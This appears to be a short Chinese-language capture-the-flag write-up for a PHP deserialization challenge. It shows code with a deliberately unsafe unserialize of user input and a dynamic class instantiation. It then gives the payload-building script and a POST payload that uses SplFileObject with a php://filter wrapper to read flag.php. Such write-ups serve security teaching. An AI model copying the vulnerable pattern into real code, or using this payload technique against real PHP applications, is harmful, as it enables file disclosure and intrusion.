 ```
class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}

if(isset($_GET['d'])){
    unserialize(base64_decode($_GET['d']));
}
?>
```
反序列化从wakeup方法开始指向hahaha()函数，进入hahaha函数里要让name＝“one class”，让leader->name="ing",leader->rank="department",所以让leader指向teacher里，最后执行IPO，要让headmaster＝“ong”，post给a，b传参构造读伪协议 使用 splFileObject 类来读取文件内容  
```
$a=new school;
$a->department=new classroom;
$a->department->name="one class";
$a->department->leader=new teacher;
$a->department->leader->name="ing";
$a->department->leader->rank="department";
$a->headmaster="ong";
echo urlencode(base64_encode(serialize($a)));


```
post：a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php
